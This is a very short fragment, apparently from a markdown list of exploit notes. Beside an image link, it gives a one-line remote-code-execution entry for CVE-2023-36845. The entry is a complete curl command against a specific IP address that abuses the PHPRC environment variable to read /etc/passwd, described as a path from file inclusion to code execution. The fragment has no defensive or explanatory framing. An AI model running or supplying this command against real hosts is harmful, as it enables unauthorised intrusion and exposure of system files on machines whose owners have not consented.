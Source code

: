 - RCE | CVE-2023-36845 -> LFI to RCE -> `curl --insecure "https://195.144.106.238/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`